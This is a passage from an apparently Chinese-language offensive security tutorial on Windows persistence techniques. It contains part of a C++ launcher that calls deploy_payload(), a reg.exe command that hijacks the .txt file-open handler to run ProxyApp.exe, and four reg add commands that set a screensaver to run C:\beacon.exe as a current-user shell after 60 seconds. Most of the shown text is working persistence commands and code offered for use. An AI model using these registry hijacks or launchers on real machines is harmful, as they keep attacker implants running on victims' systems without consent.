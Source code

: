 ```c
    ExpandEnvironmentStringsA(calc_path, full_path, MAX_PATH);
    create_new_process(full_path, NULL);
}

int main(int argc, char *argv[])
{
    std::string merged_args;
    if (argc >= 2) {
        for (int i = 1; i < argc; i++) {
            merged_args += std::string(argv[i]) + " ";
        }
        create_new_process(NULL, merged_args.c_str());
    }

    deploy_payload();
    return 0;
}
```
##### 注册表

```cmd
HKEY_CLASSES_ROOT\txtfile\shell\open\command

# 修改注册表的值
C:\ProgramData\ProxyApp.exe %SystemRoot%\system32\NOTEPAD.EXE %1

# 命令
reg.exe add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /d "C:\ProgramData\ProxyApp.exe %SystemRoot%\system32\NOTEPAD.EXE %1" /f
```
### 3. Screensaver

屏幕保护程序是具有 .scr 文件扩展名的可执行文件，并通过 scrnsave.scr 实用程序执行

屏幕保护程序设置存储在注册表中，从攻击角度来看，被认为最有价值的值是：

```cmd
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
```
#### 利用方法

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的；屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍；经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序

只能获得当前用户权限的shell，优点是不需要提权即可维持

```cmd
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```
